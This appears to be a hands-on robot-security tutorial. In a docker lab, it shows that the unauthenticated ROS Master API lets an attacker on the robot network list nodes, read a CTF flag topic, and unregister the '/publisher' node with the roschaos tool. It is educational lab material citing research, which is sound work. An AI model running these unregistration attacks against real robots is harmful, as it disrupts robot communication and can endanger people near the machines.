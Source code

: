 ### Unauthenticated registration/unregistration with ROS Master API

In this tutorial we'll review how the [ROS Master API](http://wiki.ros.org/ROS/Master_API#register.2BAC8-unregister_methods) requires no authentication capabilities to register and unregister publishers, subscribers and services. This leads to a [reported vulnerability] (https://github.com/aliasrobotics/RVDP/issues/87) that can easily be exploited with off-the-shelf penetration testing tools by an attacker with access to the internal robot network.

This work is heavily based on [1],[3] and [4].

----

**Note**: as in previous tutorials, there's a docker container that facilitates reproducing the work of this tutorial. The container can be built with:
```bash
docker build -t basic_cybersecurity11:latest .
```
and run with:
```bash
docker run -it basic_cybersecurity11:latest
```

----

Let's start by listing the ROS Nodes and Topics participating in the network. After launching the container:
```bash
root@d64845e9601e:/# rosrun scenario1 talker &
root@d64845e9601e:/# rosrun scenario1 listener
```

Now, let's get a second command line into the simulated robotic scenario running over docker. To do so:

```bash
| => docker ps
CONTAINER ID        IMAGE                          COMMAND                  CREATED             STATUS              PORTS               NAMES
935c390c1e49        basic_cybersecurity11:latest   "/root/launch_script…"   20 seconds ago      Up 19 seconds                           vibrant_chandrasekhar

| => docker exec -it 935c390c1e49 /bin/bash
root@935c390c1e49:/#

```

On the second terminal of the same docker instance:
```bash

root@d64845e9601e:/# rosnode list
/listener
/publisher
/rosout
root@d64845e9601e:/# rostopic list
/flag
/rosout
/rosout_agg
```

We can see that there're several Nodes, we're mainly interested on `/publisher` and `/listener`. Both, exchanging information through the `/flag` Topic as follows:

```bash
root@d64845e9601e:/# rostopic echo /flag
data: "br{N(*-E6NgwbyWc"
---
data: "br{N(*-E6NgwbyWc"
---
data: "br{N(*-E6NgwbyWc"
---
...
```

#### Unregistering `/publisher` from `/listener`

```bash
root@655447dc534c:/# rosnode list
/listener
/publisher
/rosout
root@655447dc534c:/# roschaos master unregister node --node_name /publisher
Unregistering /publisher
```

You will see that the listener stops getting messages. If we now verify it:

```bash
root@655447dc534c:/# rosnode list
/listener
/rosout
```

We observe that the ROS Master does not find `/publisher` anymore, it's been unregistered.
Furthermore, the process `talker` is still running:

```bash
root@655447dc534c:/# ps -e
  PID TTY          TIME CMD
    1 pts/0    00:00:00 launch_script.b
   31 pts/0    00:00:00 roscore
   42 ?        00:00:01 rosmaster
   55 ?        00:00:01 rosout
   72 pts/0    00:00:00 bash
   78 pts/1    00:00:00 bash
   90 pts/0    00:00:00 talker
  108 pts/0    00:00:01 listener
  174 pts/1    00:00:00 ps
```


### Resources
- [1] Mendia, G. O., Juan, L. U. S., Bascaran, X. P., Calvo, A. B., Cordero, A. H., Ugarte, I. Z., ... & Vilches, V. M. (2018). Robotics CTF (RCTF), a playground for robot hacking. arXiv preprint arXiv:1810.02690.
- [2] Scenarios of the Robotics CTF (RCTF), a playground to challenge robot security. Retrieved from https://github.com/aliasrobotics/RCTF
- [3] Dieber, B., Breiling, B., Taurer, S., Kacianka, S., Rass, S., & Schartner, P. (2017). Security for the Robot Operating System. Robotics and Autonomous Systems, 98, 192-203.
- [4] SROS2 Tutorial, IROS 2018. Retrieved from https://ruffsl.github.io/IROS2018_SROS2_Tutorial/.
- [5] roschaos. Retrieved from https://github.com/ruffsl/roschaos.
- [6] ROSPenTo. Retrieved from https://github.com/jr-robotics/ROSPenTo.
